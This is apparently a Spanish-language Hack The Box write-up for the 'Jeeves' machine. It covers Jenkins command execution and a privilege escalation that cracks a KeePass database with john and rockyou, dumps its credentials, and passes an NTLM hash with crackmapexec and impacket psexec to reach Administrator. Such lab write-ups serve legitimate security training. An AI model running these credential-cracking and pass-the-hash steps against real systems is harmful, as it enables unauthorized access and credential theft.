 # Jeeves-HTB


## NMAP 

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/80858071-c2b7-4e78-b9b7-45587dc34548)

el puerto 80 es un rabbit hole

## RCE

Buscamos en hacktricks lo mas comun de jenkins y lo que vimos es que se pueden ejecutar comandos de varias maneras...

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/3be34640-d0fb-4f22-9dc3-657502160678)


### Windows exploit suggester Next generation

WES-NG is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 11, including their Windows Server counterparts, is supported.

> https://github.com/bitsadmin/wesng

Tiene la capacidad de con el output del systeminfo genera las vulns pero da muchos falsos positivos.

## Priv esca

Buscando tenemos un archivo de keepass ***.kdbx***

```
keepass2john CEH.kdbx

john -w=/usr/share/wordlists/rockyou.txt hash

```

Vamos a usar el keepass cli instalalo en kali como cualquier paquete.


```
kpcli --kdb CEH.kdbx
## Buscar todo los pass
find .
# mostramos dependiendo del numero 
 show -f 0
```

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/40423b6b-98f1-4120-9165-999406ac0309)

Buscando todas las credenciales encontramos un hash que parece ser ntlm

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

```

Solo como cultura la primera parte es el hash del espacio en blanco (aad3b435b51404eeaad3b435b51404ee). Con crackmapexec podemos probar con pass the hash a ver si es el hash del Administrator.

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/7ede367e-3870-4215-9e41-0d764c1ee281)


```
crackmapexec smb 10.129.185.202 -u 'Adminsitrator' -H e0fb1fb85756c24235ff238cbe81fe00
/usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.129.16.56 cmd.exe
```




































